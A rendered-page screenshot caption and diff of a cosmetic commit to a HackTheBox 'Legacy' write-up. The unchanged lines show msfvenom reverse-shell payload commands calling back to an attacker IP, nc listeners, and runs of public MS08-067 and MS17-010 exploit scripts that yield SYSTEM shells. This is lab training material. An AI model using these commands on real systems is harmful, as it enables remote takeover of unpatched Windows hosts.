

Before and after one commit to ColdFusionX/ColdFusionX.github.io, a Jekyll site: the page built from _posts/2020-09-01-LegacyHTB.md, in a window 1280 px wide and 1400 px high, scrolled down 957 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Updated legacy

````diff
--- a/_posts/2020-09-01-LegacyHTB.md
+++ b/_posts/2020-09-01-LegacyHTB.md
@@ -6,15 +6,15 @@ tags: [masscan, legacy, XP, SMB, ms08-67, ms17-010, shellcode, whoami, smbserver
 image: /assets/img/Posts/Legacy.png
 ---
 
-> Legacy from HackTheBox is an retired machine which is vulnerable to infamous MS08-067 & MS17-010 SMB vulnerabilities and can be easily exploited with publicly available scripts and Metasploit.
+> Legacy from HackTheBox is an retired machine which is vulnerable to infamous MS08-067 & MS17-010 SMB vulnerabilities that can be easily exploited with publicly available scripts and Metasploit.
 
->We will use three different methods to pwn the box. Firstly we will use MS08-067 exploit, then MS17-010 exploit and lastly we will use Metasploit for automatic exploitation.
+>We will use three different methods to pwn this box. First, we will use MS08-067 exploit, then MS17-010 exploit and last we will use Metasploit for automatic exploitation.
 
 ## Reconnaissance
 
 Lets start out with `masscan` and `Nmap` to find out open ports and services:
 
-```terminal
+```shell
 cfx:  ~/Documents/htb
 → masscan -e tun0 -p0-65535 --max-rate 500 10.10.10.4
 
@@ -57,13 +57,13 @@ Service detection performed. Please report any incorrect results at https://nmap
 Nmap done: 1 IP address (1 host up) scanned in 59.95 seconds
 ```
 
-We discovered SMB ports `139 & 445` are open and operating system is Windows XP.
+We discovered SMB ports `139 & 445` are open and operating system running on the host is `Windows XP`.
 
-#### Nmap SMB script
+### Nmap SMB script
 
-Since SMB had its fair share of vulnerabilities, let's run nmap script to check for SMB vulnerabilities.
+Since `SMB` has been exploited widely in the past, let's run `nmap` script to check for SMB vulnerabilities.
 
-```terminal
+```shell
 cfx:  ~/Documents/htb
 → nmap --script smb-vuln* -p 139,445 10.10.10.4
 Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-01 16:51 IST
@@ -118,9 +118,9 @@ There are multiple MS08-67 exploits available on the internet but the one which
 
 To make this python script work we just have to replace the default given shellcode with our own. Shellcode generation command via msfvenom for different payload style is already given in comments by the author inside the script.
 
-#### Generating Shellcode:
+### Generating Shellcode:
 
-```terminal
+```shell
 cfx:  ~/Documents/htb
 → msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread -b "x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
 Found 11 compatible encoders
@@ -176,11 +176,11 @@ Looking at the usage of this exploit on line 228 we can see the exploit requires
 ```
 Based on our Nmap results we know the host is running Windows XP amd taking a wild guess we can go with option 6 fpr `Windows XP SP3 English (NX)`
 
-#### Exploitation
+### Exploitation
 
 Lets start the `nc` listener on port 443 and execute the exploit:
 
-```terminal
+```shell
 cfx:  ~/Documents/htb/legacy
 → /usr/bin/python2 /root/Documents/htb/legacy/ms08-067.py 10.10.10.4 6 445
 #######################################################################
@@ -215,7 +215,7 @@ Exploit finish
 
 As the exploit finishes we get a call back on our listener:
 
-```terminal
+```shell
 cfx:  ~/Documents/htb/legacy
 → nc -lvnp 443
 Ncat: Version 7.80 ( https://nmap.org/ncat )
@@ -246,7 +246,7 @@ We can host `whoami.exe` which is by default available on kali OS inside `/usr/s
 
 Sharing the SMB folder from attacking machine:
 
-```terminal
+```shell
 cfx:  /usr/share/windows-binaries
 → smbserver.py cfx `pwd`
 Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
@@ -265,7 +265,7 @@ Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
 
 Running the binary on target machine:
 
-```terminal
+```shell
 C:\WINDOWS\system32>\\10.10.14.14\cfx\whoami.exe
 \\10.10.14.14\cfx\whoami.exe
 NT AUTHORITY\SYSTEM
@@ -280,14 +280,14 @@ For MS17-010 exploit, we will use the [**code**](https://github.com/helviojunior
 
 We can download the exploit using the following command:
 
-```terminal
+```shell
 wget https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py
 ```
 This exploit is pretty straight forward as it just requires and reverse shell executable payload file which it uploads on target machine and executes it.
 
 #### Generating reverse shell payload using MSFvenom
 
-```terminal
+```shell
 cfx:  ~/Documents/htb/legacy/MS17-010
 → msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o cfx.exe
 No encoder specified, outputting raw payload
@@ -296,11 +296,11 @@ Final size of exe file: 73802 bytes
 Saved as: cfx.exe
 ```
 
-#### Exploitation
+### Exploitation
 
 We will start a `nc` listener on port 443 and execute the exploit:
 
-```terminal
+```shell
 cfx:  ~/Documents/htb/legacy/MS17-010
 → /usr/bin/python2 send_and_execute.py 10.10.10.4 cfx.exe
 Trying to connect to 10.10.10.4:445
@@ -337,7 +337,7 @@ Done
 
 And as soon as the exploit completes we get an reverse shell, we can use the same SMB hosted `whomai.exe` binary to comfirm we are running as system:
 
-```terminal
+```shell
 cfx:  ~/Documents/htb/legacy/MS17-010
 → nc -lvnp 443
 Ncat: Version 7.80 ( https://nmap.org/ncat )
@@ -359,7 +359,7 @@ We will execute Metasploit using `msfconsole` and use `exploit/windows/smb/ms08_
 
 Similar to above two methods, we can confirm we got the shell as system with our SMB hosted `whoami.exe` binary.
 
-```terminal
+```shell
 cfx:  ~/Documents/htb/legacy/MS17-010
 → msfconsole
 
````
